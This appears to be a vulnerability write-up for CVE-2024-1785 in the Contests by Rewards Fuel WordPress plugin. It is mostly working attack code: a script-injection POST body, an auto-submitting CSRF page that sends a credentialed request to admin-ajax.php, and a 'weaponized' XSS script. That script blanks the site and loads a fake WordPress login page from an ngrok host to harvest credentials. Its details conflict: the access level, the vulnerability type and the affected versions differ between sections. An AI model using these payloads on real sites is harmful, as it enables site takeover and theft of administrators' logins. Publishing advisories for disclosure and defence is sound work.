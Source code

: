 ## CVE-2024-1785
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/contests-from-rewards-fuel/contests-by-rewards-fuel-2064-authenticated-contributor-stored-cross-site-scripting-via-update-rewards-fuel-api-key

### Description
> The Contests by Rewards Fuel plugin for WordPress is vulnerable to Stored Cross-Site Scripting via the 'update_rewards_fuel_api_key' parameter in all versions up to, and including, 2.0.64 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with contributor-level access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.

### Vulnerability Type
Cross-Site Request Forgery (CSRF)

### Vendor of Product
Rewards Fuel

### Affected Product Code Base
Contests by Rewards Fuel <= 2.0.62

### Exploitation
An unauthenticated attacker can update the plugin's settings and inject malicious JavaScript via a forged request granted they can trick a site's user with the edit_posts capability into performing an action such as clicking on a link.

### PoC

> Chain the following POST request with CSRF.
```
action=rf_ajax_handler&update_rewards_fuel_api_key="'><script>alert(1);</script>
```

> PoC
```html
<html>
    <body>
        <script>
            function submitRequest()
            {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http:\/\/localhost:1337\/wp-admin\/admin-ajax.php", true);
                xhr.setRequestHeader("Accept", "*\/*");
                xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
                xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
                xhr.withCredentials = true;
                var body = "action=rf_ajax_handler&update_rewards_fuel_api_key=\"\'\x3e\x3cscript\x3ealert(1);\x3c/script\x3e";
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                    aBody[i] = body.charCodeAt(i); 
                xhr.send(new Blob([aBody]));
            }
            window.onload = submitRequest;
        </script>
    </body>
</html>
```

> Weaponized XSS
```javascript
// Get all web elements
const elements = document.getElementsByTagName('*');

const body = document.body;
body.style.display = 'none';  

// Loop through all elements and hide them
for (let i = 0; i < elements.length; i++) {
    elements[i].style.display = 'none';
}

// load a remote web page
const xhr = new XMLHttpRequest();
xhr.open('GET', 'https://xxxxxx.ngrok.app/wp-login.html', true);
xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
        // Get the response and inject it into the page
        const response = xhr.responseText;
        document.body.innerHTML = response;
    }
};
xhr.send(null);
```